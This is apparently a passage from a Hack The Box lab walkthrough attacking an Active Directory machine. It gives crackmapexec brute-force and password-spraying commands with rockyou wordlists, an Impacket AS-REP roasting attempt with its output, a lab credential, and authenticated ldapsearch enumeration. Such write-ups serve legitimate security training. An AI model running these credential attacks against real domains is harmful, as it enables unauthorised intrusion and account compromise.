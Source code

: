 ```bash
```

## Brute Force

Tring to bruteforce those users with some of the most common rockyou passwords
```bash
cme smb 10.10.11.42 -u users -p /usr/share/seclists-git/Passwords/Leaked-Databases/rockyou-30.txt --shares
```

Running rockyou against dc in the background just in case
```
cme smb 10.10.11.42 \
  -u 'dc' \
  -p /usr/share/seclists-git/Passwords/Leaked-Databases/rockyou-75.txt
```


## AS-REP Roasting Attempts

We don't have a valid set of creds yet, so we can't know if any of the users doesn't require pre-auth, but we have a list of users, so we may as well just try them all

```bash
GetNPUsers.py administrator.htb/ \
  -usersfile users \
  -format hashcat \
  -outputfile hashes.asreproast
```
```
Impacket v0.12.0.dev1+20230816.160145.f6e03b99 - Copyright 2023 Fortra

[-] User michael doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User benjamin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User emily doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User olivia doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ethan doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User dc doesn't have UF_DONT_REQUIRE_PREAUTH set
```

## Unumerating LDAP with an authenticated user

Oooh yoooo! I just realised there is info in the box description where we're given an initial user's password, god damn... Is that a new thing now? HTB gives you hints?
```
olivia:ichliebedich
```

```bash
cme ldap 10.10.11.42 -u users -p 'ichliebedich'
SMB         10.10.11.42     445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.42     445    DC               [-] administrator.htb\michael:ichliebedich
LDAP        10.10.11.42     445    DC               [-] administrator.htb\benjamin:ichliebedich
LDAP        10.10.11.42     445    DC               [-] administrator.htb\administrator:ichliebedich
LDAP        10.10.11.42     445    DC               [-] administrator.htb\emily:ichliebedich
LDAP        10.10.11.42     389    DC               [+] administrator.htb\olivia:ichliebedich
```
```bash
ldapsearch -x -LLL -H ldap://10.10.11.42:389 -b "DC=administrator,DC=htb" -D 'olivia@administrator.htb' -w 'ichliebedich'
ldapsearch -x -LLL -H ldap://10.10.11.42:389 -b "CN=users,DC=administrator,DC=htb" -D 'olivia@administrator.htb' -w 'ichliebedich' samaccountname
```

